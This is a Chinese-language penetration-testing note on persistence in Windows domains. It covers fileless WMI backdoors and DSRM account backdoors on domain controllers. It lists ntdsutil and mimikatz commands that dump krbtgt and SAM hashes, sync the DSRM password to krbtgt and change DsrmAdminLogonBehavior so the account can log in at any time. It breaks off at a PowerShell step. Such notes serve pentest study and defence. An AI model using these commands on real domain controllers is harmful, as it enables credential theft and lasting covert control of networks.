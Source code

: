 ## WMI型后门

WMI型后门只能由具有管理员权限的用户运行。WMI型后门通常是用`powershell`编写的。可以直接从新的WMI属性中读取和执行后门代码。给代码加密。通过这种方法，攻击者可以在系统中安装一个具有持久性的后门，且不会再系统磁盘中留下任何文件

WMI型后门主要使用了WMI的两个特征，及无文件和无进程。基本原理是：将代码加密存储与WMI中，达到所谓的"无文件"；当设定条件被满足时，系统会自动启动Powershell进程去执行后门程序，执行后，进程将会消失（持续事件根据后门的运行情况来定，一般是几秒），达到所谓的"无进程"

# 域控制器权限持久化

## DSRM域后门

DSRM（Directory Services Restore Mode，目录服务恢复模式）是Windows域环境中域控制器的安全模式启动选项。每个域控制器都有一个本地管理员账号（也就是DSRM账号）。**DSRM的用途是**：允许管理员在域环境中出现故障或崩溃时还原、修复、重建活跃目录数据库，使域环境的运行恢复正常。在与环境创建初期，DSRM的密码需要在安装DC时设置，且很少被重置。修改DSRM密码最基本的方法时在DC上运行`ntdsuil`命令行工具

在渗透测试中，可以使用DSRM账号对与环境进行持久化操作。如果域控制器的系统版本未`Windows Server 2008`，需要安装`KB961320`才可以使用指定域账号的密码对DSRM的密码进行同步。在Windows Server2008 以后版本系统不需要安装此补丁。如果域控制器的系统版本为：`Windows Server 2003`则不能使用该方法进行持久化操作

**每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器**

## 修改DSRM密码的方法

```sh
# 常用命令说明
- ntdsutil：打开ntdsutil
- set dsrm password: 设置DSRM的密码
- reset password on server null：在当前域控制器上恢复DSRM密码
- <password>: 修改之后的密码
- q(第一次)：退出DSRM密码设置模式
- q(第二次)：退出ntdsuil

# 如果域控制器的系统版本为Windows Server 2008（已安装KB961320）及以上，可以将SDRM密码同步为已存在的域账号密码
- ntdsutil：打开ntdsutil
- set dsrm password: 设置DSRM的密码
- sync from domain account domainusername: 使DSRM的密码和指定域用户的密码同步
- q(第一次)：退出DSRM密码设置模式
- q(第二次)：退出ntdsuil
```

## mimikatz操作

```sh
# 在域控制器打开mimikatz
privilege::debug
lsadump::lsa /patch /name:krbtgt 查询kebtgt密码
# 使用mimikatz查看并读取SAM文件中本地管理员的NTML Hash
token::elevate
lsadump::sam
# 将DSRM账号和krbtgt的NTML Hash同步
- NTDSUTIL
- set dsrm password
- sync from domain account krbtgt
- q
- q
# 查看DSRM的NTML Hash是否同步成功
lsadump::sam
# 修改DSRM的登录方式
在注册表：HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior新建项
- 0：默认值，只有域控制器重启并进入DSRM模式，才可以使用DSRM管理员账号
- 1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器
- 2：在任何情况下，都可以使用DSRM管理员账号登录域控制器
# 使用powershell 修改注册表值
```